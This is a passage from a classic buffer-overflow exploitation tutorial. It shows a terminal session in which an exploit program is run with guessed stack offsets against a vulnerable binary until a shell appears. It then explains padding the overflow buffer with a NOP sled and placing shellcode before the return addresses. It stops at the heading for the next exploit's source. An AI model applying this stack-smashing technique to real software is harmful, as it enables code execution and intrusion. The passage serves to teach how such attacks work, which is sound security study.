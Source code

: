 
	[aleph1]$ ./vulnerable $EGG
	[aleph1]$ exit

	[aleph1]$ ./exploit2 600
	Using address: 0xbffffdb4

	[aleph1]$ ./vulnerable $EGG
	Illegal instruction
	[aleph1]$ exit

	[aleph1]$ ./exploit2 600 100
	Using address: 0xbffffd4c

	[aleph1]$ ./vulnerable $EGG
	Segmentation fault
	[aleph1]$ exit

	[aleph1]$ ./exploit2 600 200
	Using address: 0xbffffce8
	
    [aleph1]$ ./vulnerable $EGG
	Segmentation fault
	[aleph1]$ exit
	.
	.
	.
	[aleph1]$ ./exploit2 600 1564
	Using address: 0xbffff794
	[aleph1]$ ./vulnerable $EGG
	$

As we can see this is not an efficient process.  Trying to guess the
offset even while knowing where the beginning of the stack lives is nearly
impossible.  We would need at best a hundred tries, and at worst a couple of
thousand.  The problem is we need to guess *exactly* where the address of our 
code will start.  If we are off by one byte more or less we will just get a
segmentation violation or a invalid instruction.  One way to increase our
chances is to pad the front of our overflow buffer with `NOP` instructions.
Almost all processors have a `NOP` instruction that performs a null operation.
It is usually used to delay execution for purposes of timing.  We will take
advantage of it and fill half of our overflow buffer with them.  We will place
our shellcode at the center, and then follow it with the return addresses. If
we are lucky and the return address points anywhere in the string of `NOPs`,
they will just get executed until they reach our code.  In the Intel
architecture the `NOP` instruction is one byte long and it translates to `0x90`
in machine code.  Assuming the stack starts at address `0xFF`, that `S` stands for
shell code, and that `N` stands for a `NOP` instruction the new stack would look
like this:

![fig 7.](https://i.imgur.com/ebJ51xG.png)

The new exploits is then:

*exploit3.c*
